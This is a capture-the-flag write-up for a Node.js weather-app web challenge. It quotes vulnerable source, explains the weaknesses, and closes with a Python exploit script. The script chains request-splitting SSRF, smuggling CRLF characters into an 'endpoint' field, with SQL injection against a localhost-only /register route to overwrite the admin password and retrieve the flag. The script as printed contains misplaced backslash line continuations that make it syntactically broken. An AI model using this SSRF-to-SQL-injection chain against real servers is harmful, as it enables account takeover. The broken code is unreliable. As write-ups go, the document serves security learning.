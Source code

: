 Ahh, a web challenge with source! Immediately a few things pop up analyzing the code:

If we manage to log into the app as admin, we immediately get the flag:
```JavaScript
router.post('/login', (req, res) => {
        let { username, password } = req.body;

        if (username && password) {
                return db.isAdmin(username, password)
                        .then(admin => {
                                if (admin) return res.send(fs.readFileSync('/app/flag').toString()
```

The register function is vulnerable to SQL injection:
```JavaScript
    async register(user, pass) {
        // TODO: add parameterization and roll public
        return new Promise(async (resolve, reject) => {
            try {
                let query = `INSERT INTO users (username, password) VALUES ('${user}', '${pass}')`;
                resolve((await this.db.run(query)));
            } catch(e) {
                reject(e);
            }
        });
    }
```

Our node-version is very outdated, as seen in the package.json:
```JavaScript
{
        "name": "weather-app",
        "version": "1.0.0",
        "description": "",
        "main": "index.js",
        "nodeVersion": "v8.12.0",
        "scripts": {
                "start": "node index.js"
        },
```

Okay, so that's quite a few things. We know that the app is vulnerable to request-splitting SSRF, and in order to exploit this, we need to manipulate some sort of POST-request. 

The app makes 3 post-requests to the following endpoints: ``api/weather + /register + /login``

We've noticed that /register is vulnerable to SQL injection, so it is likely that this is the endpoint we want to exploit. We do, however, notice the following:
```JavaScript
router.post('/register', (req, res) => {

	if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
		return res.status(401).end();
	}
...
}
```

In other words we can only make post-requests to /register if we're on the local host. Likely this means we have to actually send a payload to /api/weather containing some SQL that either alters the password of our admin user, or deletes and creates another one. Lets try.

```Python
import requests

space = "\u0120"
r = "\u010D"
n = "\u010A"

username = "admin"
password = "') ON CONFLICT (username) DO UPDATE SET password = 'passwd123';--"
password = password.replace(" ", space).replace("'", "%27").replace('"', "%22")

endpoint = "127.0.0.1/" + "\u0120" + "HTTP/1.1" + "\u010D\u010A" + "Host:" + "\u0120"\ + "127.0.0.1" + "\u010D\u010A" + "\u010D\u010A" + "POST" + "\u0120" + "/register" +\ "\u0120" + "HTTP/1.1" + "\u010D\u010A" + "Host:" + "\u0120" + "127.0.0.1" + "\u010D\u010A"\ + "Content-Type:" + "\u0120" + "application/x-www-form-urlencoded" + "\u010D\u010A" + \ "Content-Length:" + "\u0120" + str(len(username) + len(password) + 19) + \ "\u010D\u010A" + "\u010D\u010A" + "username=" + username + "&password=" + password\ + "\u010D\u010A" + "\u010D\u010A" + "GET" + "\u0120"

response = requests.post("http://127.0.0.1:1337/api/weather", json={'endpoint': endpoint, 'city': 'Copenhagen', 'country': 'DK'}, headers={'Connection':'close'})

print(response.text)
```

